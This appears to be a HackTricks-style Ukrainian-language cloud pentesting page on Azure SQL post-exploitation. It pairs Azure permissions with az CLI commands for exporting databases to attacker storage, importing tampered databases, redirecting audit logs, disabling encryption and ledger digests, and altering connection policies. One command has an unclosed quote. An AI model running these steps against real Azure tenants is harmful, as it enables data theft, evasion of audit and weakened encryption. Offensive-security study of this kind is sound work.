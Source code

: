 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

Для отримання додаткової інформації про SQL Database перегляньте:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

З цими дозволами зловмисник може створювати та оновлювати бази даних у скомпрометованому середовищі. Ця діяльність після експлуатації може дозволити зловмиснику додавати шкідливі дані, змінювати конфігурації бази даних або вставляти бекдори для подальшої стійкості, що потенційно може порушити операції або дозволити додаткові шкідливі дії.
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
З цими дозволами (`Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`) ви можете відновити видалену базу даних:
```bash
az sql db restore \
--dest-name <new_database_name> \
--name <original_database_name> \
--resource-group <resource_group> \
--server <server_name> \
--deleted-time "<deleted_time_ISO_format>"

```
### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

З цими дозволами зловмисник може створювати та оновлювати elasticPools у скомпрометованому середовищі. Ця діяльність після експлуатації може дозволити зловмиснику додавати шкідливі дані, змінювати конфігурації бази даних або вставляти бекдори для подальшої стійкості, що потенційно може порушити операції або дозволити додаткові шкідливі дії.
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

З цією дозволом ви можете змінювати або активувати налаштування аудиту на Azure SQL Server. Це може дозволити зловмиснику або авторизованому користувачу маніпулювати конфігураціями аудиту, потенційно приховуючи сліди або перенаправляючи журнали аудиту в місце, що знаходиться під їх контролем. Це може ускладнити моніторинг безпеки або дозволити йому відстежувати дії. ПРИМІТКА: Щоб активувати аудит для Azure SQL Server, використовуючи Blob Storage, ви повинні підключити обліковий запис зберігання, куди можуть зберігатися журнали аудиту.
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

З цією дозволом ви можете змінювати політики підключення Azure SQL Server. Цю можливість можна використати для активації або зміни налаштувань підключення на рівні сервера.
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### `Microsoft.Sql/servers/databases/export/action`

З цією дозволом ви можете експортувати базу даних з Azure SQL Server до облікового запису зберігання. Зловмисник або авторизований користувач з цим дозволом може ексфільтрувати чутливі дані з бази даних, експортувавши їх до місця, яке вони контролюють, що становить значний ризик витоку даних. Важливо знати ключ зберігання, щоб мати можливість це виконати.
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### `Microsoft.Sql/servers/databases/import/action`

З цією дозволом ви можете імпортувати базу даних у Azure SQL Server. Зловмисник або авторизований користувач з цим дозволом може потенційно завантажити шкідливі або маніпульовані бази даних. Це може призвести до отримання контролю над чутливими даними або шляхом вбудовування шкідливих скриптів або тригерів у імпортовану базу даних. Додатково ви можете імпортувати її на свій власний сервер в Azure. Примітка: Сервер повинен дозволяти доступ Azure-сервісів і ресурсів до сервера.
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```
### `Microsoft.Sql/servers/connectionPolicies/write` && `Microsoft.Sql/servers/connectionPolicies/read`

З цими дозволами користувач може змінювати та отримувати політики підключення до сервера Azure SQL. Ці дозволи дозволяють змінювати спосіб підключення клієнтів до сервера — вибираючи між методами, такими як перенаправлення або проксі — що може бути використано для послаблення безпеки, перенаправлення трафіку або перехоплення чутливих даних у разі неправильного налаштування.
```bash
az sql server conn-policy update \
--resource-group <resource_group> \
--server <server_name> \
--connection-policy <policy>
```
### `Microsoft.Sql/servers/keys/write` && `Microsoft.Sql/servers/keys/read`

З цими дозволами користувач може оновлювати та отримувати ключі шифрування, пов'язані з Azure SQL Server. Ці ключі часто використовуються для захисту чутливих даних через шифрування, тому маніпуляції з ними можуть скомпрометувати безпеку даних, дозволяючи несанкціоноване розшифрування або зміни ротації ключів.
```bash
az sql server key create \
--resource-group MyResourceGroup \
--server MyServer \
--kid "https://mykeyvault.vault.azure.net/keys/mykey/1234567890abcdef
```
### `Microsoft.Sql/servers/databases/ledgerDigestUploads/disable/action`, `Microsoft.Sql/locations/ledgerDigestUploadsAzureAsyncOperation/read`, `Microsoft.Sql/locations/ledgerDigestUploadsOperationResults/read`

Ця дозволена дія дозволяє вимкнути Ledger Digest для Azure SQL Database, що зупиняє періодичне завантаження криптографічних дайджестів до Azure Blob Storage, які перевіряють цілісність даних.
```bash
az sql db ledger-digest-uploads disable \
--name ledgerDB \
--resource-group myResourceGroup \
--server my-sql-server
```
### `Microsoft.Sql/servers/databases/transparentDataEncryption/write`, `Microsoft.Sql/locations/transparentDataEncryptionAzureAsyncOperation/read`, `Microsoft.Sql/servers/databases/transparentDataEncryption/read`

Цей дозвіл дозволяє авторизованому користувачу або зловмиснику увімкнути, вимкнути або змінити налаштування Transparent Data Encryption (TDE) на базі даних Azure SQL, що може вплинути на безпеку даних шляхом зміни конфігурацій шифрування.
```bash
az sql db tde set \
--database <database-name> \
--resource-group <resource-group-name> \
--server <server-name> \
--status <Enabled|Disabled>
```
{{#include ../../../banners/hacktricks-training.md}}
